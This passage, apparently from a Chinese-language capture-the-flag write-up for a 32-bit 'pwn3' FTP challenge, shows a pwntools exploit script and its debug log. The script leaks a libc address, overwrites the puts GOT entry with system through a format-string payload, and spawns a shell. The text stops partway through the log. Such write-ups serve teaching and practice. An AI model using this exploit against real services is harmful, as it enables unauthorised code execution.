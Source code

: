 ```python
puts_addr = u32(sh.recv()[:4])
#从库中找到system函数地址
libc = ELF ('/lib/i386-linux-gnu/libc.so.6')
libc.address = puts_addr - libc.symbols['puts']
sys_addr=libc.symbols['system']
#将第七个参数的puts函数地址改成system函数地址
payload = fmtstr_payload(7, {puts_got: sys_addr})
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
#在运行show_dir时将puts(”/bin/sh;“)变成system("/bin/sh;"),并成功获取shell
sh.sendline('/bin/sh;')
sh.recvuntil('then, enter the content:')
sh.sendline(payload)
#通过get打印‘/bin/sh;’文件，执行system('/bin/sh;')
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('/bin/sh;')
#通过dir来拿到shell
sh.sendline('dir')
sh.interactive()
```

debug日志如下：

```python
ubuntu@ubuntu:~/Desktop$ python 1.py
[+] Starting local process './pwn3' argv=['./pwn3'] : pid 6264
[DEBUG] PLT 0x80484a0 setbuf
[DEBUG] PLT 0x80484b0 strcmp
[DEBUG] PLT 0x80484c0 printf
[DEBUG] PLT 0x80484d0 bzero
[DEBUG] PLT 0x80484e0 fread
[DEBUG] PLT 0x80484f0 strcpy
[DEBUG] PLT 0x8048500 malloc
[DEBUG] PLT 0x8048510 puts
[DEBUG] PLT 0x8048520 __gmon_start__
[DEBUG] PLT 0x8048530 exit
[DEBUG] PLT 0x8048540 __libc_start_main
[DEBUG] PLT 0x8048550 __isoc99_scanf
[DEBUG] PLT 0x8048560 strncmp
[*] '/home/ubuntu/Desktop/pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[DEBUG] Received 0x70 bytes:
    'Connected to ftp.hacker.server\n'
    '220 Serv-U FTP Server v6.4 for WinSock ready...\n'
    'Name (ftp.hacker.server:Rainism):'
[DEBUG] Sent 0x9 bytes:
    'rxraclhm\n'
[DEBUG] Sent 0x4 bytes:
    'put\n'
[DEBUG] Received 0x42 bytes:
    'welcome!\n'
    'ftp>please enter the name of the file you want to upload:'
[DEBUG] Sent 0xb bytes:
    'Cyberangel\n'
[DEBUG] Received 0x18 bytes:
    'then, enter the content:'
[DEBUG] Sent 0x9 bytes:
    00000000  25 38 24 73  28 a0 04 08  0a                        │%8$s│(···│·│
```